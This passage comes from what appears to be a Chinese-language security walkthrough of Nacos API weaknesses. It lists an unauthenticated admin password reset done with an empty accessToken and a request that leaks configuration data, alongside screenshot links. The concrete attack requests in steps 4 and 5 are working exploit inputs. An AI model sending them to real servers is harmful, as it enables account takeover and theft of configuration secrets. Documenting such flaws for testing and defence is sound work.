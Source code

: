 [![](assets/1700442594-22d4af51d884e125cf05249979f11190.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155353-9e66d75c-85e7-1.png)

可以看到用户删除成功

**4、用户密码重置**

更改提交方式为`PUT,`访问 `PUT /nacos/v1/auth/users?accessToken=&username=admin&newPassword=passwd`

[![](assets/1700442594-657fa39e425c608957b2b560897d7ee9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155407-a69f2c76-85e7-1.png)

**5、配置信息泄露**

在路径后面加上：`nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99`
